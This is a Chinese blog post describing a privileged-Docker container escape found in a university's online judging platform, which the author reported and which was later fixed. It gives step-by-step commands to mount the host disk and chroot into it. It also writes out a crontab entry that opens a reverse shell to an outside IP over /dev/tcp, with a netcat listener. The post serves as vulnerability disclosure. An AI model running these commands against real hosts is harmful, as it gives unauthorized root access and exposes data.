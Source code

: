 ```yaml
---
title: 一例 docker 配置不当产生的逃逸漏洞
date: 2023-02-18 11:19:59
categories: 逆向
tags: [逆向, docker]
---
```


我们学校某些实验课使用的是头歌实践教学平台（educoder，一个在线评测网站），老师说找到漏洞可以提，我就简单挖了挖。其实去年 5 月份就找到这个漏洞了，但是碍于修复需要时间，没有写成文章。前段时间登陆上去看了下，发现已经修复了，就浅浅记录一下吧。

<!-- more -->

说句题外话，我是发邮件告诉他们这个漏洞的，结果就收到个“已转发给技术”，修复完了也渺无音信。要不是这体量不太够我就给他发 CNVD 上面去了😡。

回到正题，说起来这个漏洞也挺简单，分发给用户的评测机其实是跑在 docker 里面的，而这个 docker 是以特权模式启动的。

验证 docker 是否是特权模式启动，只需要使用命令：

```bash
> cat /proc/self/status | grep CapEff
0000003fffffffff
```

结果是`0000003fffffffff`就是了。

知道是特权模式启动的 docker 之后，就可以开始逃逸了。

先挂载宿主机硬盘：
```bash
> mkdir test;
> mount /dev/vda1 test/;
> chroot /test/;
```

现在主机的磁盘就挂载在`/test`下面了，可以查看、修改主机的所有文件，我这里就修改 crontab 简单获取个反弹 shell。

```bash
> vi ./etc/crontab
"*/1 *  *  *  * root bash -i >& /dev/tcp/172.20.253.241/2333 0>&1"
```

在攻击机上监听一下：
```bash
> netcat -lvvp 2333
```

过一会儿就能收到反弹 shell 了，粗略看了看，也就是一个阿里云的主机，可以看到各个评测的答案和代码，还有一些敏感信息按下不表。

{% asset_img educode_1.png educode_1.png %}